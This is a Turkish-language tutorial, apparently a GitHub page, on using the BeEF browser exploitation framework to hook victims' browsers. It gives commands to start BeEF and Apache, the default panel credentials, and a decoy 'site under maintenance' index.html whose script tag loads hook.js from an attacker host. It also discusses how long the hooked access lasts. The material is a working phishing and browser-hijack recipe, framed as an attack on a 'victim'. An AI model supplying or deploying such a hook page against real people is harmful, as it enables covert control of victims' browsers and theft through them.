 #### **🎯 Temel Çalışma Mantığı**
- **Hedef:** Kurbanın tarayıcısında JavaScript kodu çalıştırarak kontrol sağlamak
- **Çalışma:** Terminalden başlatıldığında yerel ağda web arayüzü (http://[saldırgan-ip]:3000) açar
- **Yetki:** `sudo ./beef` komutu ile root yetkisinde çalıştırılmalıdır ⚡

---
### **🎯 Beef Framework Temel Kullanım**

#### **🔧 Beef'i Başlatma**
```bash
# 1. Beef klasörüne git (genellikle /opt klasörüne kurulması önerilir)
cd /opt/beef

# 2. Beef'i başlat
./beef
```

#### **🌐 Beef Arayüzüne Erişim**
- Beef başlatıldığında terminalde **UI URL** görüntülenecek
- Tarayıcıdan bu adrese gidilir: `http://[saldırgan-ip]:3000/ui/panel`
- Varsayılan giriş bilgileri: **beef** / **beef**
---
### **🎣 TEMEL OLTA LAMA YÖNTEMİ**

#### **📡 Web Sunucusu Hazırlığı**
```bash
# 1. Apache web sunucusunu başlat
sudo service apache2 start

# 2. Web dizinine git
cd /var/www/html
```

#### **📄 index.html Dosyasını Düzenleme**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Güvenli Site</title>
</head>
<body>
    <h1>Site Bakımda</h1>
    <p>Lütfen bekleyin...</p>
    
    <!-- 🔻 SALDIRGAN IP'SİNİ BURAYA YAZ -->
    <script src="http://10.0.2.8:3000/hook.js"></script>
</body>
</html>
```

#### **🌐 Kurbanı Oltalama**
- Kurban, tarayıcısından saldırganın IP adresine gider: `http://[saldırgan-ip]`
- **Beef hook'u yüklenir** ve kurban "Hooked Browsers" listesine düşer ✅
- 🎯 **Hedef başarıyla oltalanmıştır!**

---

### **⚠️ BU YÖNTEMİN SINIRLILIKLARI**

| Durum | Erişim | Açıklama |
|-------|--------|----------|
| **✅ Site Açık** | **Aktif** | Kurban sitedeyken kontrol devam eder |
| **❌ Site Kapalı** | **Kaybolur** | Kurban siteyi kapattığında erişim biter |
| **🔄 Yeni Sekme** | **Yeniden Başlar** | Kurban yeni sekmede siteye girerse erişim yeniden sağlanır |

---

### **🆚 DİĞER YÖNTEMLERLE KARŞILAŞTIRMA**

| Yöntem | Kalıcılık | Kapsam | Zorluk |
|--------|-----------|--------|--------|
| **🌐 Basit Oltalama** | ❌ Geçici | Tek sayfa | 🟢 Kolay |
| **🚀 JS Enjeksiyonu** | ✅ **Kalıcı** | Tüm siteler | 🟡 Orta |

---